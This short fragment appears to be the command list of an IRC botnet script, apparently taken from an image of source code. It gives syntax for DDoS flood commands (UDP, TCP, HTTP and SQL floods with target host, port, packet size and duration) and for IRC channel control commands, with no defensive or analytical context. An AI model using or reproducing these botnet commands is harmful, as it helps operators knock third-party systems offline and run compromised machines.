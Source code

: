 # -zr @packetstorm 

# -zr @milw0rm 

#-----[DDos Based]----- 

# -zr @udpflood <host> <packet size> <time> 

# -zr @tcpflood <host> <port> <packet size> <time> 

# -zr @httpflood <host> <time> 

# -zr @sqlflood <host> <time> 

#-----[IRC Based]----- 

# -zr @killme   

# -zr @join #channel 

# -zr @part #channel 

# -zr @reset 

# -zr @voice <who> 

# -zr @owner <who> 

# -zr @deowner <who> 

# -zr @devoice <who> 

# -zr @halfop <who> 

# -zr @dehalfop <who> 

